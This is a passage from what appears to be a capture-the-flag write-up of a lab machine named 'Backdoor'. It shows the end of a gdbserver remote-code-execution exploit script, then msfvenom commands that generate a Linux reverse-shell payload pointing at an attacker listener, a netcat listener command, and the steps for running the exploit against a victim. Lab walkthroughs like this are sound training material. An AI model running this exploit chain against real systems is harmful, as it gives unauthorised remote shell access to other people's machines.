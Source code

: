 ```

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
        sock.connect((ip, int(port)))
        print('[+] Connected to target. Preparing exploit')
        exploit(sock, payload)
        print('[*] Pwned!! Check your listener')


if __name__ == '__main__':
    main()
            
```

>In this payload, there is an example about how to do this attack

```
Example:
- Victim's gdbserver   ->  10.10.10.200:1337
- Attacker's listener  ->  10.10.10.100:4444

1. Generate shellcode with msfvenom:
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.100 LPORT=4444 PrependFork=true -o rev.bin

2. Listen with Netcat:
$ nc -nlvp 4444

3. Run the exploit:
$ python3 {sys.argv[0]} 10.10.10.200:1337 rev.bin
```

> So, create the shell code first

```
# msfvenom -p linux/x64/shell_reverse_tcp LHOST=<attack ip address> LPORT=4444 PrependFork=true -o /<path>/rev.bin
```

![](machine/backdoor/IMG/14.png)
> Execute it...
```
# python3 gdbserver_rce.py <victim ip> <reverse shell code>
```

![](machine/backdoor/IMG/15.png)
